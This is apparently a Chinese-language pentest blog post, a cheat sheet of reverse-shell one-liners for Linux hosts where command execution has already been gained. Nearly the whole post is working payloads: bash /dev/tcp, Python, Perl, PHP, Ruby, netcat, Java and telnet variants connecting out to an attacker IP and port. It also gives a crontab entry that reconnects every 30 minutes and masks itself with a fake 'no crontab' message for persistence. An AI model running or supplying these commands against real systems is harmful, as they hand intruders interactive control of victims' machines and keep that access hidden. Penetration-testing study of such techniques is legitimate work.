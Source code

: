 +++
date = "2016-08-06T08:36:53+08:00"
description = ""
draft = false
tags = ["elevate privileges"]
title = "Linux下反弹shell"
topics = ["Pentest"]

+++

当你找到一个有命令执行的主机时，你可能想要一个交互式deshell，如果你不能添加用户或者添加ssh密钥时，你就需要反弹一个shell来实现，下面的都是反弹shell的命令

### 0x00 Bash
```
/bin/bash -i >& /dev/tcp/10.10.10.10/8888 0>&1
注：这个由解析shell的bash完成，有些时候不支持
```

### 0x01 crontab
```
下面这条命令执行后会每隔30分钟反弹一次：
(crontab -l;printf "*/30 * * * * exec 9<> /dev/tcp/10.10.10.10/8888;exec 0<&9;
exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|
crontab -
```

### 0x02 Python
```python
# 下面为1条命令
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,
socket.SOCK_STREAM);s.connect(("10.10.10.10",8888));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 0x03 Perl
```
# 下面为1条命令
perl -e 'use Socket;$i="10.10.10.10";$p=8888;socket(S,PF_INET,SOCK_STREAM,
getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,
">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 0x04 PHP
```
php -r '$sock=fsockopen("10.10.10.10",8888);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### 0x05 Ruby
```
# 下面为1条命令
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",8888).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 0x06 Netcat
```
nc -e /bin/sh 10.10.10.10 8888
```

### 0x07 Java
```
# 下面为3条命令
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/8888;cat <&5 | 
while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 0x08 telnet
```
两种方法：
mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
telnet 173.214.173.151 8080 | /bin/bash | telnet 173.214.173.151 8888
第一种hacker运行：nc -vlp 8080
第二种hacker运行：nc -vlp 8080和nc -vlp 8888
```

<br />
#### Reference(侵删)：
* [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [https://www.91ri.org/6620.html](https://www.91ri.org/6620.html)
